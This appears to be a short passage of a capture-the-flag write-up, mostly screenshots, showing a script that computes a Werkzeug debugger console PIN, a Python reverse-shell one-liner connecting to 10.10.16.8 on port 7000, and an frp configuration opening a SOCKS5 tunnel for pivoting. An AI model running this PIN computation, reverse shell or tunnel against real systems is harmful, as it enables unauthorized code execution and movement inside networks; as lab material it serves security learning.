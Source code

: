 ```python
for bit in chain(probably_public_bits, private_bits):
	if not bit:
		continue
	if isinstance(bit, str):
		bit = bit.encode('utf-8')
	h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
	h.update(b'pinsalt')
	num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
						  for x in range(0, len(num), group_size))
			break
	else:
		rv = num

print("Pin: " + rv)
```

![](https://img.mi3aka.eu.org/2022/08/e86e4c31737f6e86c8b9c27b0bf2378a.png)

![](https://img.mi3aka.eu.org/2022/08/5ea7624176737471f993bd692e125e33.png)

![](https://img.mi3aka.eu.org/2022/08/84b3b9ba281177dfa8f9af7570053eb6.png)

![](https://img.mi3aka.eu.org/2022/08/a1654190024f8f40aab18171cb197f41.png)

```python
import os,pty,socket;s=socket.socket();s.connect(("10.10.16.8",7000));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
```

![](https://img.mi3aka.eu.org/2022/08/13c7ab4d5ed956350a653ef8f5f8a406.png)

---

构建frp

```ini
[common]
server_addr = 10.10.16.8
server_port = 7777

[s5]
type = tcp
plugin = socks5
remote_port = 6000
```
